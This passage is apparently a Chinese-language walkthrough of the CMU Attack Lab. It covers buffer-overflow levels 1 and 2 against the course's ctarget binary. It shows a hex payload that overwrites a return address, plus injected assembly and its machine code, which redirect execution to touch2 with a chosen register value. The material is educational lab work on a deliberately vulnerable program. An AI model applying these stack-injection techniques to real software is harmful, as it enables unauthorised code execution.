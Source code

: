 ```shell script
> ./hex2raw -i phase1.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:69 64 65 61 6C 69 73 6D 2D 78 78 6D 00 00 00 00 00 00 00 00 6D 78 78 2D 6D 73 69 6C 61 65 64 69 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

### 第二关

第二关需要注入一小段代码，让函数 `test` 在调用函数 `getbuf` 后返回到函数 `touch2` 开始继续执行，并且需要将寄存器 `%rdi` 的值设置为 `cookie` 对应的值，本地是 `cookie.txt` 文件中的值 `0x59b997fa` 。
- 限制仅能通过 `ret` 指令进行控制转移，不能使用 `jmp` 和 `call` 等

```c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

首先还是通过 `(gdb) disas touch2` 获取函数开始的地址 `0x4017ec`

然后就是思考如何通过 `ret` 进行控制转移， `ret` 指令会将栈顶的值出栈，并跳转到该值所指向的地址，所以思路就很明确了。

在 `getbuf` 返回的时候跳转到我们注入代码的开始位置（为了方便及减少输入字符串的长度，我们使用 `getbuf` 内部分配的 `40` 个字节。因为 `ctarget` 禁止了栈随机化，所以此方法可行），注入代码需要将寄存器 `%rdi` 的值设置为 `0x59b997fa` ，再将 `0x4017ec` 入栈，最后再执行 `ret` 。

对应的汇编代码如下，将其保存在 `phase2_code.s` 中：

```assemble
movq $0x59b997fa, %rdi
pushq $0x4017ec
ret
```

现在需要将其转换成对应的机器代码：

```shell script
# 将汇编代码翻译成机器代码
> gcc -c phase2_code.s
# 反汇编代码
> objdump -d phase2_code.o

phase2_code.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq
```
